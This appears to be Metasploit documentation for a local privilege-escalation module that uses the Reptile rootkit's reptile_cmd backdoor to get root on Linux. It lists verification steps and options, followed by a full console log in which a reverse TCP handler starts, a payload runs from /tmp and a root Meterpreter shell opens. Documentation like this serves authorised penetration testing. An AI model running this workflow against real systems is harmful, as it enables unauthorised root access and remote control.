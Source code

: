 ## Description

  This module uses Reptile rootkit's `reptile_cmd` backdoor executable
  to gain root privileges using the `root` command.


## Vulnerable Application

  [Reptile](https://github.com/f0rb1dd3n/Reptile) is a Linux Kernel Module (LKM) rootkit.

  The `reptile_cmd` utility, installed to `/reptile` by default, permits elevating privileges
  to root using the `root` argument.

  This module has been tested successfully with Reptile from `master` branch (2019-03-04) on:

  * Ubuntu 18.04.3 (x64)
  * Linux Mint 19 (X64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### REPTILE_CMD_PATH

  Path to `reptile_cmd` executable (default: `/reptile/reptile_cmd`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Ubuntu 18.04.3 (x64)

  ```
  msf > use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc 
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > check

  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [+] The target is vulnerable.
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [*] Writing '/tmp/.Q53XrrJ3RFy' (207 bytes) ...
  [*] Executing payload...

  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.166
  [*] Meterpreter session 3 opened (172.16.191.165:4444 -> 172.16.191.166:56736) at 2019-12-08 03:19:01 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.166
  OS           : Ubuntu 18.04 (Linux 5.0.0-25-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

